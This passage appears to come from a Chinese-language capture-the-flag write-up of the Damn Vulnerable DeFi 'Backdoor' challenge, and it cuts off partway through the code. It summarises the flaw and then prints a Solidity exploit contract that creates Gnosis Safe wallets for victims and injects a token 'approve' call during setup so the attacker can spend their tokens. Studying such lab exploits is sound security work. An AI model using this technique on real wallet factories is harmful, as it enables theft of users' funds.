 * **Exploit**
总结一下以上的分析，其实这个题就是利用了一个gnosis钱包的一个外部调用，再钱包的上下文中执行`approve`
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@gnosis.pm/safe-contracts/contracts/proxies/GnosisSafeProxy.sol";
import "@gnosis.pm/safe-contracts/contracts/proxies/GnosisSafeProxyFactory.sol";
import "@gnosis.pm/safe-contracts/contracts/proxies/IProxyCreationCallback.sol";
import "@gnosis.pm/safe-contracts/contracts/GnosisSafe.sol";
import "../DamnValuableToken.sol";
import "hardhat/console.sol";

interface IGnosisSafe {
     function setup(
        address[] calldata _owners,
        uint256 _threshold,
        address to,
        bytes calldata data,
        address fallbackHandler,
        address paymentToken,
        uint256 payment,
        address payable paymentReceiver
    ) external;
}

contract BackdoorExploit {

    DamnValuableToken immutable token;
    GnosisSafeProxyFactory immutable gnosisFactory;
    address registryAddress;
    address masterCopyAddress;

    constructor(
        address _registryAddress,
        address _masterCopyAddress,
        address _walletFactory,
        address _token
    ){
        token = DamnValuableToken(_token);
        gnosisFactory = GnosisSafeProxyFactory(_walletFactory);
        registryAddress = _registryAddress;
        masterCopyAddress = _masterCopyAddress;
    }

    function GiveApprove(address _token, address _spender) external {
        DamnValuableToken(_token).approve(_spender, 10 * 10**18);
        // console.log("The spender's address :", _spender);
        console.log("The Giver's address:", msg.sender);
    }

    function creatWallet(address[] memory victims)external returns (address newproxy){
        address[] memory owner = new address[](1);
        for(uint8 i = 0; i < victims.length; i++){
            owner[0] = victims[i];
            bytes memory init = abi.encodeWithSelector(
                GnosisSafe.setup.selector, 
                owner,                                      //新建钱包的owner
                1,                                          //threshold 只能为1
                address(this),                              //漏洞出现点
                abi.encodeWithSelector(                     //借入
                    BackdoorExploit.GiveApprove.selector, 
                    address(token),
                    address(this)
```